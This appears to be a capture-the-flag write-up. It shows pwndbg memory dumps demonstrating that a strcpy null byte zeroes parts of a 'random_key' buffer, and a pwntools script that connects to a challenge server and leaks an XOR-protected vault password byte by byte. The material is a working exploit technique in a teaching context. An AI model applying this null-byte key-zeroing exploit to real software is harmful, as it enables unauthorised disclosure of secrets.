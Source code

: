 ```
before strcpy, original key:

pwndbg> x/32bx 0x555555606060
0x555555606060 <random_key>:	0x8a	0x3a	0x46	0x49	0x61	0x31	0xe8	0xb3
0x555555606068 <random_key+8>:	0x5a	0x11	0xf9	0xb5	0x93	0x93	0xb8	0xd5
0x555555606070 <random_key+16>:	0xff	0xc3	0xaa	0xc2	0xef	0xef	0x22	0xdd
0x555555606078 <random_key+24>:	0x04	0x2c	0x87	0xe8	0x3e	0xc0	0xab	0x12


after strcpy:
pwndbg> x/32bx 0x555555606060
0x555555606060 <random_key>:	0x34	0x7e	0x37	0xf6	0xab	0x41	0x4c	0x36
0x555555606068 <random_key+8>:	0x00	0x11	0xf9	0xb5	0x93	0x93	0xb8	0xd5
0x555555606070 <random_key+16>:	0xff	0xc3	0xaa	0xc2	0xef	0xef	0x22	0xdd
0x555555606078 <random_key+24>:	0x04	0x2c	0x87	0xe8	0x3e	0xc0	0xab	0x12

8 new first bytes, and a NULL byte at random_key+8
```

- new key of size 0: random_key[0] = 0
- new key of size 1: random_key[1] = 0
- new key of size 2: random_key[2] = 0

etc...

since the flag is xor'd with the key and flag ^ 0 == flag, we can leak the flag byte by byte...

```python
from pwn import *
import time

context.log_level = 'error'

password = ''
# leak key byte by byte
for x in range(32):
    io = remote("165.227.224.55", 32647)
    io.recvuntil(b"> ")
    # generate new key
    io.sendline(b"1")
    io.recvuntil(b"Length of new password (0-31): ")
    # send 
    io.sendline(str(x))

    io.recvuntil(b"> ")
    io.sendline(b"2")
    io.recvuntil(b"Master password for Vault: ")

    password += chr(io.recv(1024)[x])
    
    print(password)
    time.sleep(0.3) # connection throttle

```
